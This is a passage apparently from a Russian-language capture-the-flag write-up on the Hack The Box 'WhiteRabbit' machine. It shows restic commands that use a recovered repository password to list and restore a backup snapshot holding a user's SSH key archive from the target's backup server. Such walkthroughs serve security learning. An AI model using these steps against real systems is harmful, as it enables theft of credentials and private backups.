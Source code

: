 + новый поддомен: `http://75951e6ff.whiterabbit.htb`

```
echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd

Hexada@hexada ~$ restic -r rest:http://75951e6ff.whiterabbit.htb  --password-file .restic_passwd ls latest                                                                                 
repository 5b26a938 opened (version 2, compression level auto)
[0:00] 100.00%  5 / 5 index files loaded
snapshot 272cacd5 of [/dev/shm/bob/ssh] at 2025-03-06 17:18:40.024074307 -0700 -0700 by ctrlzero@whiterabbit filtered by []:
/dev
/dev/shm
/dev/shm/bob
/dev/shm/bob/ssh
/dev/shm/bob/ssh/bob.7z

Hexada@hexada ~$ restic -r rest:http://75951e6ff.whiterabbit.htb --password-file .restic_passwd restore latest --target ./restore-dir                                                      
repository 5b26a938 opened (version 2, compression level auto)
[0:00] 100.00%  5 / 5 index files loaded
restoring snapshot 272cacd5 of [/dev/shm/bob/ssh] at 2025-03-06 17:18:40.024074307 -0700 -0700 by ctrlzero@whiterabbit to ./restore-dir
Summary: Restored 5 files/dirs (572 B) in 0:00
```


